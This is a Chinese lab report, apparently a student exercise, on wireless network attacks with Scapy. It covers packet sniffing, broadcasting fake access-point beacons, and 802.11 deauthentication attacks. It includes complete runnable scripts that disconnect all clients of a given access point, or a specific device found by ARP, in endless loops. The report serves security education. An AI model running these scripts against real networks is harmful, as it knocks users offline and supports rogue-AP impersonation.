



# ⽆线接⼊⽹⼊侵与防御
---

## 实验目标

基于 Scapy 的⽆线⽹络攻防编程实践:
- [x] 实验⼀：使⽤ Scapy 进⾏⽆线⽹络嗅探
- [x] 实验⼆：使⽤ Scapy 创建虚假 AP
- [x] 实验三：使⽤ Scapy 断开设备与 Wi-Fi 的连接

---

## 实验环境

- 操作系统: Kali Linux
- 虚拟机软件: VirtualBox7.1.6

---

## 实验步骤

### 实验一：使⽤ Scapy 进⾏⽆线⽹络嗅探
#### 步骤⼀：使⽤ Scapy 查找所有 Wifi 设备
编写 `scapy` 代码:


```python
import sys 
from scapy.all import *

IFACE_NAME = "wlan0mon"
devices = set() 
def PacketHandler(pkt): 
    if pkt.haslayer(Dot11): 
        dot11_layer = pkt.getlayer(Dot11)        
        if dot11_layer.addr2 and (dot11_layer.addr2 not in devices): 
            devices.add(dot11_layer.addr2) 
            print(dot11_layer.addr2) 
sniff(iface=IFACE_NAME, count=1, prn=PacketHandler)
```


#### 步骤⼆：使⽤ Scapy 查找并打印所有检测到的数据包类型和地址

同样编写 `scapy` 的 python 代码实现：

```python
import sys 
from scapy.all import *
IFACE_NAME = "wlan0mon"
devices = set() 
def PacketHandler(pkt): 
    if pkt.haslayer(Dot11): 
        dot11_layer = pkt.getlayer(Dot11) 
        
        if dot11_layer.addr2 and (dot11_layer.addr2 not in devices): 
            devices.add(dot11_layer.addr2) 
            print(len(devices), dot11_layer.addr2, 
dot11_layer.payload.name) 
sniff(iface=IFACE_NAME, count=100, prn=PacketHandler)
```




### 实验⼆：使⽤ Scapy 创建虚假 AP

#### 步骤⼀：安装并配置环境

1. 安装scapy-fakeap
```bash
pip3 install scapy-fakeap
```

2. 配置⽆线⽹卡进⼊ Monitor 模式
```bash
sudo airmon-ng start wlan0
```

#### 步骤⼆：使⽤ Scapy 构建⽆线⽹络数据帧

首先需要⽣成⼀个随机的MAC地址然后设置想要创建的接入点的名称并创建⼀个 802.11 帧，构建完整个帧并完成发送。
```python
dot11 = Dot11(type=0, subtype=8, 
            addr1="ff:ff:ff:ff:ff:ff", 
            addr2=sender, addr3=sender)
```

完整的代码如下：


```pyhton
from scapy.all import *
interface = "wlan0mon"

sender = RandMAC() 

access_point_name = "mycsgo"

dot11 = Dot11(type=0, subtype=8, addr1="ff:ff:ff:ff:ff:ff", addr2=sender, addr3=sender) 
beacon = Dot11Beacon() 

e_SSID = Dot11Elt(ID="SSID", info=access_point_name, len=len(access_point_name)) 

frame = RadioTap()/dot11/beacon/e_SSID 

sendp(frame, inter=0.1, iface=interface, loop=1) 
```


通过监听查看确实发送出去了包


### 实验三：使⽤ Scapy 断开设备与 Wi-Fi 的连接
#### 场景⼀：攻击者未接⼊⽆线⽹络

首先使⽤ `Scapy` 定义取消认证数据帧然后构建取消认证数据帧发送函数；在设置了相关参数后进⾏攻击
下面的函数使⽤ `Scapy` 库中的 RadioTap 和 Dot11Deauth 类⽣成取消⾝份验证数据
帧,然后使⽤ sendp 函数发送数据包
```python
def disconnect_user(mac_address, access_point, interface): 
    packet = RadioTap() / Dot11(addr1=mac_address, 
                    addr2=access_point, 
                    addr3=access_point)/ Dot11Deauth(reason=7) 
    sendp(packet, inter=0.01, count=100, 
        iface=interface, verbose=1) 
```
最后的攻击代码：

```python
from scapy.all import RadioTap, Dot11, Dot11Deauth, sendp

def disconnect_user(mac_address, access_point, interface):
    """
        mac_address：目标设备的 MAC 地址
        access_point：AP 的 MAC 地址
        interface：无线网卡接口名称
    过程：
        1. 利用 RadioTap 构造帧头
        2. 使用 Dot11 设置 802.11 帧中的地址字段：
            - addr1：接收方 MAC 地址（目标设备）
            - addr2：发送方 MAC 地址（AP）
            - addr3：BSSID，通常与 AP MAC 地址一致
        3. 添加 Dot11Deauth 数据包，设置取消认证原因
        4. 使用 sendp 函数发送数据包，inter 指定发送间隔，count 为发送次数
    """
    packet = RadioTap() / Dot11(addr1=mac_address, addr2=access_point, addr3=access_point) / Dot11Deauth(reason=7)
    sendp(packet, inter=0.01, count=100, iface=interface, verbose=1)

if __name__ == "__main__":
    target_mac = "ff:ff:ff:ff:ff:ff"  # 设置为广播地址，断开所有设备
    ap_mac = "8a:42:91:be:dc:97"       # 目标 AP 的 MAC 地址 54:D7:E3:41:A5:81 /82:1C:6D:AA:EC:BF
    interface = "wlan0mon"         
    while(True):
        disconnect_user(target_mac, ap_mac, interface)
```


连接网络的移动端的反应：



可见当启动攻击后，移动端连接的网络就断开了，当攻击结束，又会连接回去


#### （扩展）场景⼆：攻击者与受害者均接⼊同⼀⽆线⽹络
将电脑设备和一个移动设备通过无线网络连接到一个无线网络中：
经过查看，其中的移动端设备的 IP 为：**192.168.25.136**

经过测试发现，如果虚拟机使用的是 nat 网卡，就无法通过 arp 找到目标设别的 mac 地址，于是切换虚拟机网卡为桥接网卡，再次测试发现可以获取到 mac 地址


验证连通性，发现可以 ping 通,证明在一个网段里面




编写的攻击代码：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from scapy.all import RadioTap, Dot11, Dot11Deauth, sendp, ARP, Ether, srp, conf

def getting_ip_of_access_point():
    # 返回默认路由中的网关IP
    return conf.route.route("0.0.0.0")[2]

def get_mac_address(ip):

    # 构造ARP请求包，目标为指定IP
    arp_request = ARP(pdst=ip)
    # 构造以太网广播帧
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    # 发送ARP请求并等待响应
    answered_list = srp(arp_request_broadcast, timeout=2, verbose=False)[0]
    # 如果有响应，返回第一个响应的MAC地址，否则返回None
    if answered_list:
        return answered_list[0][1].hwsrc
    else:
        return None

def disconnect_user(mac_address, access_point, interface):
    # 构造取消认证数据包：
    # addr1：目标设备的MAC地址
    # addr2/addr3：AP的MAC地址
    packet = RadioTap() / Dot11(addr1=mac_address, 
                                addr2=access_point, 
                                addr3=access_point) / Dot11Deauth(reason=7)
    # 发送数据包，这里发送100个数据包，发送间隔0.01秒
    sendp(packet, inter=0.01, count=100, iface=interface, verbose=1)

def main():
    # 指定受害者设备的IP地址
    device_ip = '192.168.25.136'
    # 通过获取默认网关获取AP的IP地址
    router_ip = getting_ip_of_access_point()
    # 无线网卡接口名称
    interface = 'wlan0mon'
    
    # 通过ARP请求获取AP和受害者设备的MAC地址
    mac_address_access_point = get_mac_address(router_ip)
    mac_address_device = get_mac_address(device_ip)
    
    print("MAC Address of Access Point: ", mac_address_access_point)
    print("MAC Address of Device: ", mac_address_device)
    print("Starting Deauthentication Attack on Device: ", mac_address_device)
    
    # 发起Deauthentication攻击
    while(True):
        disconnect_user(mac_address_device, mac_address_access_point, interface)

if __name__ == "__main__":
    main()
```

当运行代码发现没有获取到 route 的 ip 和 mac 时,出现下面的情况：


可能是因为连接了 5GHz 网络，重新将两台设备连接进入 2.4GHz 的网络即可正常获取到 IP 和 MAC 地址,
正常运行的结果如下：


当运行代码时，指定的 IP 的设备连接的网络被断开，当代码结束运行时又重新连接


---

## 遇到的问题及解决方案

- 通过 ARP 无法获取到 MAC 地址，通过搜索后发现，在更换网卡 NAT 为桥接网卡后便可以通过 ARP 获得 MAC 地址
- 运行代码去获取 MAC 和 IP 时，一直出现返回为 none 的情况，攻击也没有效果，原因是使用的无线网卡不支持 5GHz 的网络信号，更换为 2.4GHz 即可正常进行


